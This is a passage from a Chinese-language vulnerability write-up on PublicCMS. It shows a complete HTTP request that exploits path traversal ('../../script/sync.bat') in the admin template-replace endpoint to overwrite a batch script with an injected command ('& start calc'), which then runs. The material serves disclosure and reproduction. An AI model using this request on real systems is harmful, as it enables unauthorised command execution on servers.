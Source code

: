 查看文件后发现模板和脚本都在 `publiccms` 目录下，且路径为：

```php
\publiccms\template\site_id\xx\xx
\publiccms\script\sync.bat
```

整体跟下来发现未对替换的文件路径做限制，所以我们可以利用 `../../` 从当前目录穿越到脚本文件目录下，然后替换系统脚本文件内容。

## 0x02 漏洞复现

1、构造数据包修改脚本文件内容 (这里演示在 Windows 系统上对 bat 脚本内容的替换操作)

```php
POST /publiccms_war/admin/cmsTemplate/replace?navTabId=cmsTemplate/list HTTP/1.1
Host: 127.0.0.1:8081
Content-Length: 226
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://127.0.0.1:8081
Referer: http://127.0.0.1:8081/publiccms_war/admin/index.html
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PUBLICCMS_ADMIN=1_553ba132-1c5f-4218-bb35-f955109d8446; JSESSIONID=BA166C749709B8766689F349339FEA73; PUBLICCMS_ANALYTICS_ID=bf9f77eb-31db-4888-8d82-4b1e05fc7c39
Connection: close

_csrf=553ba132-1c5f-4218-bb35-f955109d8446&word=echo%20%22repo%20not%20config!%22&replace=echo%20%22repo%20not%20config!%22%20%26%20start%20calc&replaceList%5B0%5D.path=../../script/sync.bat&replaceList%5B0%5D.indexs=0
```

成功替换内容：

![image-20230927170935297](assets/1698896095-be5aa52be1ea801877cb78afe4d62e5a.jpg)

2、执行脚本，触发命令

![image-20230927171124902](assets/1698896095-f7c55acdf8a2cf40e47a413dac86eadb.jpg)

